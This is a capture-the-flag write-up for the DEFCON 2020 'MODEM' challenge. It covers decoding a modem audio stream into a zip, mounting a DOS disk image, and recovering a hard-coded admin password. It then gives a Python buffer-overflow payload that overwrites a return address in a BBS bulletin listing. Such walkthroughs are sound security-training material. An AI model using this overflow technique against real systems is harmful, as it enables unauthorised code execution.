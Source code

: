 # MODEM - Pwn - Reversing

After a long time, I'm back for DEFCON 2020 :) 

Use the script `downloader.py` to interact with the server and download the zip. 

Decode the zip with 

Shell1:
```bash
minimodem --rx 1200 -8 -R 48000 -q > data_in_decoded
```

Shell2: 
```bash
cat data_in.dat | aplay -r 48000 -t raw -f FLOAT_LE
```

Finally, decode it with: 
```python
f = open("/tmp/data_in_decoded", "r").read()
splitted = f.split(" ")
decoded = ''.join(map(lambda x: chr(int(x, 16)), splitted))
f = open("myServer.zip", 'wb')
f.write(decoded)
f.close()
```

Extract the zip, mount the image with 

```bash
sudo mount -o loop BBS.IMG /mnt/
```

Reverse the MSDOS binary to extract the admin password `supersneaky2020`. 

Create a new bulletin using the admin panel. There is an overflow when the bulletins are listed: the size of the payload is expected to be 256 bytes long, and after 262 bytes we can overwrite the return address of the function. 

The exploit is the following 

```python
with open('payload.txt', "wb") as f:
    f.write("FLAG.TXT\n")
    f.write("supersneaky2020\n")
    f.write("C\r\n")
    f.write("A" * 262 + "\x7d\xea" + "\x20\x1c" + "\xd5\x0b" + "\n\n")
    f.write("L\n")
```

Use some pro bash commands to interact with the server, see the video below :) 

https://www.youtube.com/watch?v=_OJLPW5O7xo
